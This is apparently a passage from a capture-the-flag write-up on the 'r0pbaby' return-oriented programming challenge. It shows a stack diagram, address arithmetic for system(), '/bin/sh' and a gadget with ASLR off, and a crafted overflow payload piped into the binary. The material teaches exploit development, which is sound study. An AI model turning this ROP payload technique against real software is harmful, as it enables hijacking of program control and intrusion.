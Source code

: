 <pre>
+----------------------+
|...higher addresses...|
+----------------------+ &lt;-- start of main()'s stack frame
|       DDDDDDDD       |
+----------------------+
|       CCCCCCCC       |
+----------------------+
|     gadget_addr      | &lt;-- return address of main()
+----------------------+
|       AAAAAAAA       | &lt;-- overflowable variable must start here
+----------------------+
|                      |
|                      |
|     [local vars]     |
|                      |
|                      | &lt;-- rsp
+----------------------+ &lt;-- end of main()'s stack frame
|...lower addresses....|
+----------------------+
</pre>

Since I have <a href='https://stackoverflow.com/questions/5194666/disable-randomization-of-memory-addresses'>ASLR off on my computer</a> (if you do turn it off, please make sure you turn it back on!), I can pre-compute the addresses I need.

Symbol system: 0x00007FFFF7883960 (from the program)

sh_addr = system_addr + 0x11f71c
sh_addr = 0x00007ffff7883960 + 0x11f71c
sh_addr = 0x7ffff79a307c

gadget_addr = system_addr + 0xa7969
gadget_addr = 0x00007ffff7883960 + 0xa7969
gadget_addr = 0x7ffff792b2c9

So now, let's change the exploit we used to crash it a long time ago (we replace the "B"s with the address of our gadget, in <a href='https://en.wikipedia.org/wiki/Endianness'>little endian</a> format:

<pre>
$ <strong>echo -ne '3\n32\nAAAAAAAA\xc9\xb2\x92\xf7\xff\x7f\x00\x00CCCCCCCCDDDDDDDD\n' | ./r0pbaby</strong>
Welcome to an easy Return Oriented Programming challenge...
[...]
Menu:
Segmentation fault (core dumped)
</pre>
